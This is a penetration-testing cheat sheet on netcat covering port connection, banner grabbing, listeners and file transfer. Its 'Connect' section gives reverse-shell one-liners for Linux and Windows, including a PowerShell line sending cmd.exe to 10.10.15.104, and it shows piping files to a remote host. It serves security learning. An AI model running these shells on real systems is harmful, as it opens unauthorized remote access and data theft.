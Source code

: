 # netcat (nc)
> Netcat (the "TCP/IP Swiss Army Knife") is a networking utility used to read and write data to network connections using TCP or UDP.

## Contents
- [Intro](#intro)
  - [Remote Access Tool](#remote-access-tool)
  - [Two Modes](#two-modes)
  - [Options](#options)
- [Connecting to Ports (client mode)](#connecting-to-ports-client-mode)
  - [Standard Syntax](#standard-syntax)
  - [Additional Information](#additional-information)
  - [Manually Check Ports](#manually-check-ports)
- [Listener](#listener)
- [Connect](#connect)
  - [Connect to listener from Linux](#connect-to-the-listener-from-a-linux-target-machine)
  - [Connect to listener from Windows](#connect-to-the-listener-from-a-windows-target-machine)
- [File Input/Output](#file-inputoutput)

## Intro

### Remote Access Tool
- NetCat is a popular remote access tool.
- It has a small footprint so it's portable. It can set up a reverse shell easily.
  - In Kali the Windows executable is found here: `/usr/share/windows-binaries/nc.exe`
- Netcat can be used by penetration testers to perform the following functionality:
  - Banner Grabbing
  - Port Scanning
  - Tranferring Files
  - Bind/Reverse Shells
- Resources: [Simple How-To](https://jeffreytse.net/computer/2020/10/14/how-to-use-netcat-command.html) | [Basic Usage](https://www.geeksforgeeks.org/netcat-basic-usage-and-overview/)

### Two Modes
- Netcat utilizes a client-server communication architecture with two modes:
  - **Client [Connect] Mode:** Netcat can be used in a client mode to connect to any TCP/UDP port; it can also be used to connect to a remote listener (a remote Netcat server).
  - **Server [LIsten] Mode:** Netcat can be used to listen for connections from clients on a specific port.

### Options
- Some options to be aware of...
- `-v  --verbose` : set verbosity levels (`-v` is lower level, `-vv` is more, `-vvv`, etc.)
- `-u  --udp` : use UDP instead of the default TCP
- `-l  --listen` : bind (to a specified port) and listen for incoming connections
- `-n  --nodns` : do not resolve hostnames via DNS
- `-p  --source-port <port#>` : specify the source port to use
- `-e  --exec <command>` : executes the given command 

## Connecting to Ports (client mode)

### Standard Syntax
```
nc [target ip] [target port]  
nc 10.4.20.244 80              # example
```
- Netcat allows you to connect to a specific TCP or UDP port.
- This can allows you to do banner grabbing and things of that nature (once you connect, the target may give you a service banner with helpful information).

### Additional Information
- If your initial connection (like the above) results in nothing (no service banner), then you need to add some options.
```
nc -nv 10.4.20.244 80      # this will give you a little bit more information (e.g., confirmation of the connection).
nc -nvu 10.4.20.244 139    # check UDP
```

### Manually Check Ports
- Nmap will find open ports, and a service version scan will most often provide detailed information about what services (and their versions) are running on those open ports.
- This is not, however, the case all the time. 
- Whenever you see a question mark next to an nmap result, that means nmap is give you a best guess.
- You should always check these items **_manually_** with Netcat.

## Listener
- Set up the listener on your attack machine:
```
nc -nvlp 1234     # TCP listener
nc -nvlup 1234    # UDP listener
```

## Connect

### Connect to the listener from a Linux target machine
```
nc [listener IP] [port] –e /bin/bash
nc [listener IP] [port] –e /bin/sh
```

### Connect to the listener from a Windows target machine
```
nc.exe [listener IP] [port] –e cmd.exe

# If you have access to Powershell:
powershell -c C:\tmp\nc.exe -e cmd.exe 10.10.15.104 1234
```

## File Input/Output

Send output from a listener to a text file:
```
nc -nvlp [port number] > filename.txt
```

Send output from a text file to a remote machine (this can be used to transfer any type of file: text, binary, etc.):
```
nc [IP Address] [port] < filename.txt
```
